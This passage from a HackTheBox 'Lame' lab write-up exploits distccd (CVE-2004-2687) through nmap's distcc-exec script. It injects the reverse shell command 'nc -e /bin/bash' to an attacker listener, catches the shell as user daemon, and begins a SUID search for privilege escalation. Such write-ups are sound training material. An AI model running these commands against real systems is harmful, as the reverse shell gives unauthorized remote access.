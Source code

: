 Based on the `nmap` script results we can see the host is vulnerable to `CVE-2004-2687` and output of `id` command inside the script is displays as user `daemon`.

We can use the argument parameter of the script to change the command from `id` to `reverse shell payload`:

```shell
cfx:  ~/Documents/htb/lame
→ nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/bash 10.10.14.17 4444'"
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 01:42 IST
Nmap scan report for 10.10.10.3
Host is up (0.24s latency).

PORT     STATE SERVICE
3632/tcp open  distccd

Nmap done: 1 IP address (1 host up) scanned in 31.62 seconds
```
As soon as the script execution completes, we get a call back on `nc` listener:

```shell
cfx:  ~/Documents/htb/lame
→ nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:59434.
whoami
daemon
```
Since we are running as under privileged user `daemon`, lets try different privilege escalation methods to gain root.

## Root Shell

### PrivEsc1 : Nmap SUID

We can use `find` command to search for SUID binaries on the machine:

```shell
cfx:  ~/Documents/htb/lame
→ nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:59434.
whoami
daemon
python -c "import pty;pty.spawn('/bin/bash')"
daemon@lame:/tmp$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
```